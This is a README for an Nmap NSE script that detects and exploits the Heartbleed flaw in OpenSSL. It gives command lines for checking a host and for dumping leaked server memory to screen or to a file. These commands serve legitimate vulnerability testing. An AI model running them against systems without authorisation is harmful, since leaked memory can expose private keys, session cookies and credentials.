 ssl-heartbleed.nse
======================

Nmap NSE script that discovers/exploits Heartbleed/CVE-2014-0160. This script is now basically the one Patrik Karlsson wrote with some minor changes ported from my own script.

### Features
* Includes support for FTP,SMTP,XMPP (https://github.com/nmap/nmap/blob/master/nselib/sslcert.lua#L231).
* Supports all versions of TLS (TLSv1.0, TLSv1.1, TLSv1.2).
* Print leaked memory as hex dump.
* Dump leaked memory into a file.

### Usage
#### Check if a host is vulnerable
This runs on every SSL, FTP, SMTP and/or XMPP port.
```
$ nmap --script ./openssl-heartbleed.nse host.tld
```
#### Dump leaked memory from a vulnerable host
Dumping leaked memory is enabled by increasing Nmap's debug level via -d flag.
```
$ nmap -d --script=./openssl-heartbleed.nse host.tld
```
#### Dump leaked memory into a file
```
$ nmap --script ./ssl-heartbleed.nse --script-args 'ssl-heartbleed.dumpfile=/tmp/heartbleed.dump' host.tld
```
#### Run ssl-heartbleed.nse against every port
Force the script to run on each port, regardless if the servie was detected or not.
```
$ nmap --script +./ssl-heartbleed.nse host.tld
```
